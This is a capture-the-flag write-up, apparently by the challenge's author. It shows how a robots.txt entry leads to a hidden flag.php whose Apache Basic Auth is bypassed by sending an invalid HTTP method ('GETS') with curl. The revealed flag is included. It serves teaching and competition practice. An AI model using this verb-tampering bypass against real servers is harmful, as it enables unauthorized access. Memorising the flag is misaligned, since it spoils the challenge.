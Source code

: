 # Write-up

## Prologue 

Hint is useless if you are stuck in the middle. Pray for you if you pay for it with 10 score.

## Walk-through

### robots.txt

The website <http://tertiary.pwnable.hk:50007/> will redirect you to rickroll as I'm too lazy to write a real webpage.
`robots.txt` file under root should be found
![](./img/001.PNG)

Which will guide you to visit to <http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php>

## flag.php

To prevent others brute-forcing the directory, I have use a random string as folder name.
Once visit, the browser will prompt you to login.
![](./img/002.PNG)

However, the description said that no password has been set up. So we have to think of ways to bypass login prompt.
Here I use a trick of both `.htaccess` and `.htpasswd`. Once user use HTTP Header not restricted by `.htacces`, they can visit the page. Thanks for the help of php for pharsing all invalid header as valid one.

```console
byronwai@kali:~$ curl -X GETS http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php
Congraulations! You get the flag.<br>hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}
<script>
setTimeout(function () {
   window.location.href= 'https://www.youtube.com/watch?v=gkTb9GP9lVI&ab_channel=JwHDify';
}, 5000);
</script>
```

## Flag
`hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}`

Yes, I got a typo in flag format. Sorry man.

## Epilogue
Solve: 2/84 (Secondary)
Solve: 3/81 (Tertiary)

Someone said that this challenge is a bit gessy for the HTTP header. However, the Apache prompt is giving hints that `AuthType Basic` is used. There are bunches of tutorial on web giving `.htaccess` config with weak security.

## Reference

<https://www.opencli.com/apache/apache-user-login>
<https://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/>
